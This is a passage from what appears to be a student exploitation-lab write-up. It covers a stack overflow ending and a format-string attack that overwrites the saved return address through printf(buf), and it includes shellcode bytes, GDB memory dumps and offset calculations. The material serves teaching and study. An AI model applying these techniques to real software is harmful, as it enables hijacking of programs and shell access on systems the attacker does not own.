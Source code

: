 ```
0xffffd638:     0xb05b32eb      0xcdc93105      0xebc68980      0x3101b006
0xffffd648:     0x8980cddb      0x8303b0f3      0x0c8d01ec      0xcd01b224
0xffffd658:     0x39db3180      0xb0e674c3      0xb202b304      0x8380cd01
0xffffd668:     0xdfeb01c4      0xffffc9e8      0x414552ff      0x00454d44
0xffffd678:     0xffffd600      0x08049000      0x08050b19      0x00000000
0xffffd688:     0x00000000      0x00000000      0x00000000      0x0804906b
```
After 148 bytes of garbage, the rip is overwritten with 0xffffd630, which points to the shellcode directly after the rip.

# Question 6: Antares Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because no format string is passed into ```printf(buf)``` and we can control ```buf```. We can pass in format string specifiers into ```buf``` where we can read and write from memory and take control of the program. More specifically, we overwrite the rip of ```calibrate``` with the address of our malicious shellcode after which we get the program to do what we want it to do. 
```
    printf(buf);
```
This is a format string vulnerability.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determine the address of the shellcode (0xffffd78a). This was done by invoking GDB, setting breakpoint at line 15 and printing out the ```argv[1]```.
```
(gdb) p argv[1]
$22 = 0xffffd78a "j2X̀\211É\301jGX̀1\300Ph//shh/binT[PS\211\341\061Ұ\v̀"
(gdb) x/2wx 0xffffd78a
0xffffd78a:     0xcd58326a      0x89c38980
```
We then find the address of ```buf``` (0xffffd570) and rip of ```calibrate``` (0xffffd55c). This is done running GDB and setting breakpoint at line 8.
```
(gdb) i f
Stack level 0, frame at 0xffffd560:
 eip = 0x8049214 in calibrate (calibrate.c:7); saved eip = 0x804928f
 called by frame at 0xffffd610
 source language c.
 Arglist at 0xffffd558, args: buf=0xffffd570 "AAAA____AAAA____%0u%hn%0u%hn\n"
 Locals at 0xffffd558, Previous frame's sp is 0xffffd560
 Saved registers:
  ebp at 0xffffd558, eip at 0xffffd55c
```
Finally, we calculate the number of words we need to move to point the arg[i] pointer of ```printf``` to start of ```buf```. This was done through taking the difference between the address of start of ```buf``` (0xffffd570) and rip of ```printf``` (0xffffd52c). 0xffffd570 - 0xffffd52c = 44 in hex = 68 in decimal. 68 / 4 = 17 words. Since initially the arg[i] pointer of ```printf``` starts 8 bytes above rip of ```printf``` we subtract 2 words from 17. Thus we need to skip 15 words before the arg[i] pointer reaches start of ```buf```.
```
(gdb) x/16x buf
0xffffd570:     0x41414141      0xffffd55c      0x41414141      0xffffd55e
0xffffd580:     0x63256325      0x63256325      0x63256325      0x63256325
0xffffd590:     0x63256325      0x63256325      0x63256325      0x35256325
0xffffd5a0:     0x37343135      0x6e682575      0x33303125      0x25753735

(gdb) si
```